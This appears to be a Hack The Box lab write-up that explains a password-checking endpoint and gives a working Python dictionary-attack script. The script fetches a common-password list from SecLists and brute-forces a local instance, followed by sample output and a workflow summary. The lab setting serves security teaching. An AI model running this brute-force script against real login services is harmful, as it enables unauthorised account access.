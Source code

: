 The target system creates a route (`/dictionary`) to handle POST requests. It expects a `password` parameter in the request's form data. If the submitted password matches, it responds with a JSON object containing a success message and a flag. Otherwise, it returns a 401 Unauthorized error.

### Python Script for Dictionary Attack
The following Python script performs a dictionary attack against the `/dictionary` endpoint:

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

### Execution Example
Running the script:

```
DJMC@htb[/htb]$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: tiger
Flag: HTB{...}
```

### Script Workflow
1. **Downloads Wordlist**: Fetches a list of 500 weak passwords from SecLists.
2. **Iterates and Submits**: Tests each password by sending a POST request to the `/dictionary` endpoint.
3. **Analyzes Responses**: Checks if the response indicates success (HTTP 200) and extracts the flag if found.
4. **Continues or Terminates**: Iterates until the correct password is found or the wordlist is exhausted.
